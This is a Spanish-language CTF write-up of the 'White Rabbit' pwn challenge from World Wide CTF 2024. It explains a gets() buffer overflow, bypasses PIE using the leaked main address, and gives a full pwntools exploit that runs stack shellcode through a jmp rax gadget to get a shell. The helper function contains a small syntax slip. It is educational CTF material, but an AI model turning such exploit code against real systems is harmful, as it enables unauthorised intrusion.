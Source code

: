 ```yaml
---
layout: post
title: White Rabbit World Wide CTF 2024
comments: true
categories: [Pwn, Writeups, WorldWideCTF]
---
```


Este es el reto de calentamiento de pwn de la World Wide CTF de 2024. Dado a la cantidad de trabajo que tenía no pude darle mucho tiempo a esta competición, pero he de decir que estuvo muy entretenida y tenía un nivelazo!

![Image]({{ site.baseurl }}/images/posts/wwctflogo.png){:width="100px"}

# Overview

En este reto bypasearemos un PIE, introduciremos un *shellcode* en el stack y lo ejecutaremos mediante ROP.

La descripción decía así:

	Just a nice easy warmup for you...

# Reconocimiento

Como nos dan sólo un binario (`64-bits LSB`), comenzamos lanzando *checksec*:

```
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : ENABLED
RELRO     : Partial
```

Vemos que tenemos el **bit NX desactivado**, lo que nos indica que podemos ejecutar código en el stack. Descompilando con *ghidra*:

```c
int main(void)

{
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  puts("\n  (\\_/)");
  puts(&DAT_0010200d);
  printf("  / > %p\n\n",main);
  puts("follow the white rabbit...");
  follow();
  return 0;
}
```

Vemos que nos dan la función de `main`, con lo que podemos saltar el **PIE**. Además la función follow contiene una vulnerabilidad de tipo *Buffer overflow*:

```c
void follow(void) {
  char buf [100];
  
  gets(buf);  //GETS es siempre vulnerable
  return;
}
```

# Explotación

Con esta información, podemos tratar de introducir un *shellcode* en el stack y ejecutarlo con un *gadget* `jmp eax`. Podemos calcular el offset hasta el *RIP* con cyclic y la dirección del gadget con *ropper*:

```bash
gdb-peda$ !pwn cyclic -l faabgaab

120
```

```bash
ropper -f white_rabbit | grep "jmp"

0x00000000000010bf: jmp rax; 
```

Como el *PIE* está activado, debemos calcular la dirección del gadget relativa a `main`, para ello, tomamos la dirección que obtenemos de *gdb* y le restamos la que nos da ropper:

```
0x0000000000001180 - 0x00000000000010bf = 0x00c1
```

A la hora de utilizar el gadget, utilizaremos la dirección de *main* que nos dan menos `0x00c1`:

```python
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    elif args.REMOTE:
        return remote("url", 1337)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Set up pwntools for the correct architecture
exe = './white_rabbit'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'


# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

io.recvuntil(b'> ')

main = io.recvuntil(b'\n') #Get the address of main from leak

JMP_RAX = int(main, 16) - 0xc1 #Calculate the address of the jmp rax gadget

payload = asm(shellcraft.sh())        # front of buffer <- RAX points here
payload = payload.ljust(120, b'A')    # pad until RIP
payload += p64(JMP_RAX)               # jump to the buffer - return value of gets()

io.sendline(payload)
io.interactive()
```

Podemos hacer que *pwntools* tome directamente la dirección del propio gadget de la memoria (aunque es interesante saber cómo obtenerla manualmente):

```python
JMP_RAX = jmp_rax = next(elf.search(asm('jmp rax')))
```

Y tras ejecutar deberíamos obtener una shell. Vaya reto para empezar en caliente!!!